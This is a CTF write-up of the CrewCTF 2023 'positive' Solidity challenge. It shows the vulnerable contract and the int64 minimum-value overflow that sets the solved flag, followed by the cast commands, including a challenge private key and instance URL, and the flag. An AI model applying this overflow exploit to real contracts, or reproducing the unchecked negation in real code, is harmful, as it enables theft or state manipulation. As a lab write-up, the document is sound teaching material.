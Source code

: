 # CrewCTF 2023 - positive [27 solves / 757 points] [First blood 🩸]

Our goal is to set `solved` to true in the Positive contract

### Setup.sol

```solidity
pragma solidity =0.7.6;

import "./Positive.sol";

contract Setup {
    Positive public immutable TARGET;

    constructor() payable {
        TARGET = new Positive(); 
    }

    function isSolved() public view returns (bool) {
        return TARGET.solved();
    }
}
```

### Positive.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.7.6;

contract Positive{
    bool public solved;

    constructor() {
        solved = false;
    }

    function stayPositive(int64 _num) public returns(int64){
        int64 num;
        if(_num<0){
            num = -_num;
            if(num<0){
                solved = true;
            }
            return num;
        }
        num = _num;
        return num;
    }

}
```

We need to find `_num` that is less than 0, at the same time `-_num` need to be less than 0

We can use the minimum int64 number

```
 »  type(int64).min
-9223372036854775808

 »  type(int64).max
9223372036854775807
```

As int64 is using two's complement for negative numbers, there is a negative `9223372036854775808`, but not a positive `9223372036854775808`, so it will overflow but it won't revert as it is in version 0.7.6

```
 »  int64 _num = -9223372036854775808
 »  -_num
-9223372036854775808
 »  int64(9223372036854775807 + 1)
-9223372036854775808
```

So just call stayPositive() with -9223372036854775808
 to solve this challenge

```
# cast send 0x11E4Db698FB2d8716637aa50A85ad26d08873fD1 "stayPositive(int64)(int64)" -r http://146.148.125.86:60083/fc6148ac-6ff8-478e-a66d-044db7d94ae9 --private-key 0x9c8836a4f94ecb9dc207709e496371557fa44bd7a31f64bb8d11148bcf1ff65f -- -9223372036854775808
```

Then we can verify that we have solved this challenge :

```
# cast call 0xC449674DBF2d6f451394D83cC40Bf8F5176920Bd "isSolved()(bool)" -r http://146.148.125.86:60083/fc6148ac-6ff8-478e-a66d-044db7d94ae9
true
```

### Flag :

```
# nc positive.chal.crewc.tf 60003
1 - launch new instance
2 - kill instance
3 - get flag
action? 3
ticket please: REDACTED
This ticket is your TEAM SECRET. Do NOT SHARE IT!
crew{9o5it1v1ty1sth3k3y}
```